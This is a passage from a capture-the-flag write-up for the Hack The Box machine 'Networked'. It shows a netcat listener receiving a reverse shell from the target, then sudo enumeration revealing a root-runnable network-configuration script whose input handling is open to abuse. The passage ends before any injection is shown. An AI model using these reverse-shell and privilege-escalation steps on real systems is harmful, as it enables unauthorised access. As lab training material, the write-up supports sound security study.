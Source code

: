 Then soon the listener captures the request and spawns a shell.

```bash
┌──(kali㉿kali)-[~/htb/networked]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.146] 46968
id
uid=1000(guly) gid=1000(guly) groups=1000(guly)
whoami
guly
```



# Shell as `root`

### Enumeration

```bash
[guly@networked ~]$ sudo -l
sudo -l
Matching Defaults entries for guly on networked:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh
[guly@networked ~]$ ls -al /usr/local/sbin/changename.sh
ls -al /usr/local/sbin/changename.sh
-rwxr-xr-x 1 root root 422 Jul  8  2019 /usr/local/sbin/changename.sh
[guly@networked ~]$ cat /usr/local/sbin/changename.sh
cat /usr/local/sbin/changename.sh
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
        echo "interface $var:"
        read x
        while [[ ! $x =~ $regexp ]]; do
                echo "wrong input, try again"
                echo "interface $var:"
                read x
        done
        echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done
  
/sbin/ifup guly0
```
